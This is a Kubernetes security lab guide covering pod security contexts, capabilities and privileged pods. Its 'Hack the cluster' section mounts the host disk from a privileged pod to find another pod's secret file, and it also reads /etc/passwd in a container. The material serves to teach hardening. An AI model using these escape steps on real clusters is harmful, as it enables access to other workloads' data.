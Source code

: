 ### Getting started with admision controllers
#### Experiment pod node selector
* list the namespaces in the cluster. Notice that there are 2 namespaces dev and prod 
``` bash
kubectl get ns
```
* List the labels of the cluster nodes
``` bash
kubectl get nodes --show-labels
```
``` bash
NAME      STATUS   ROLES           AGE   VERSION   LABELS
kubeadm   Ready    control-plane   17d   v1.24.2   beta.kubernetes.io/arch=amd64,beta.kubernetes.io/os=linux,kubernetes.io/arch=amd64,kubernetes.io/hostname=kubeadm,kubernetes.io/os=linux,node-role.kubernetes.io/control-plane=,node.kubernetes.io/exclude-from-external-load-balancers=
```
* Set a label to the node (worker node)
``` bash
kubectl label nodes kubeadm nodeSelector: env=dev
```
* Create a pod in dev namespace
``` bash
kubectl run pod-1 --image=nginx -n dev
```
------------------
#### Effects of privilaged pods and implement security context 
* Create a pod as prvilaged pod
``` bash
kubectl run p1-busybox --image=busybox -it -- sh
If you don't see a command prompt, try pressing enter.
/ # 
/ # 
/ # ps
PID   USER     TIME  COMMAND
    1 root      0:00 sh
    6 root      0:00 ps
/ # echo "hi" > /tmp/file1.txt
/ # ls -l /tmp/
total 4
-rw-r--r--    1 root     root             3 Mar  5 05:27 file1.txt
```
* Create a directory day2 and navigate into that 
``` bash
mkdir day2; cd day2
```
* Add security context to the pod defnition
``` bash
vi sec_context.yml
```
``` bash
apiVersion: v1
kind: Pod
metadata:
  name: pod-sec-context
spec:
  securityContext:
    runAsUser: 1000
    runAsGroup: 2000
  containers:
  - name: sec-ctx-demo
    image: busybox
    command: [ "sh", "-c", "sleep 1h" ]
```
``` bash
kubectl create -f sec_context.yml
kubectl get pods
```
``` bash
kubectl exec -it pod-sec-context -- sh
~ $ 
~ $ ps
PID   USER     TIME  COMMAND
    1 1000      0:00 sh -c sleep 1h
    7 1000      0:00 sh
   12 1000      0:00 ps
~ $ echo "hi" > /tmp/file1.txt
~ $ ls -l /tmp/
total 4
-rw-r--r--    1 1000     2000             3 Mar  5 05:46 file1.txt
```
* open sec_context.yml file and add the following config
``` bash
--- 
apiVersion: v1
kind: Pod
metadata:
  name: pod-sec-context-vol
spec:
  securityContext:
    runAsUser: 1000
    runAsGroup: 2000
    fsGroup: 3000
  volumes:
  - name: sec-ctx-vol
    emptyDir: {}
  containers:
  - name: sec-ctx-demo
    image: busybox
    command: [ "sh", "-c", "sleep 1h" ]
    volumeMounts:
    - name: sec-ctx-vol
      mountPath: /app/data
```
``` bash
kubectl apply -f sec_context.yml 
```
* login into the pod-sec-context-vol pod and perform the following 
``` bash
kubectl exec -it pod-sec-context-vol -- sh
~ $ 
~ $ echo "hi" > /tmp/file1.txt
~ $ ls -l /tmp/
total 4
-rw-r--r--    1 1000     2000             3 Mar  5 05:54 file1.txt
~ $ cd /app/data/
/app/data $ echo "hi" > file1.txt
/app/data $ ls -l
total 4
-rw-r--r--    1 1000     3000             3 Mar  5 05:56 file1.txt
/app/data $ cat /etc/passwd 
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/false
bin:x:2:2:bin:/bin:/bin/false
sys:x:3:3:sys:/dev:/bin/false
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/false
www-data:x:33:33:www-data:/var/www:/bin/false
operator:x:37:37:Operator:/var:/bin/false
nobody:x:65534:65534:nobody:/home:/bin/false

app/data $ id
uid=1000 gid=2000 groups=2000,3000
```
``` bash 
exit
```
* Creating privilaged pod
``` bash
vi pod2.yml
```
``` bash
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
spec:
  containers:
  - name: privileged
    image: nginx
    securityContext:
      privileged: true

---
apiVersion: v1
kind: Pod
metadata:
  name: non-privileged-pod
spec:
  containers:
  - name: non-privileged
    image: nginx

```
``` bash
kubectl apply -f pod2.yml
```
``` bash
kubectl exec -it non-privileged-pod -- bash
root@non-privileged-pod:/# cd /dev/
```
* Note: You can't access low level devices like disk
* List the capabilities of container
``` bash
apt update -y && apt install libcap2-bin -y 
capsh --print
```
* Perform the same steps in privilaged pod and observe the differences. 
* After finishing the experiment delete all the pods
``` bash
kubectl delete pod --all
```
Note: We should not use this command in a production cluster

#### Hack the cluster using privilaged pod
* Login as sam user
``` bash
su - sam
```
* Create a pod 
``` bash
apiVersion: v1
kind: Pod
metadata:
  name: sensitive-app
  namespace: dev
spec:
  containers:
  - image: nginx
    name: demo-pod

---
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: dev
spec:
  containers:
  - image: nginx
    name: priv-pod
    securityContext:
      privileged: true
```
``` bash
kubectl apply -f pod1.yml
```
``` bash
kubectl get pods -n dev
```
* Store some sensitive data to the pod
``` bash
kubectl exec -it -n dev sensitive-app -- bash
```
``` bash
echo "some sensitve data" > /root/secret.txt
```
``` bash
exit
```
* connect to the privilaged pod
``` bash
kubectl exec -n dev -it privileged-pod -- bash
```
``` bash
mkdir /host-disk
```
``` bash
ls /dev/
```
``` bash
mount /dev/vda3 /host-disk/
cd /host-disk
ls
find . -name secret.txt
```
``` bash
exit
exit
```

























* create admission controller
* Manage pods using admission controller
* hack the misconfigured cluster
* Image policy usijng admisison controllers
* Mount secrets in pods
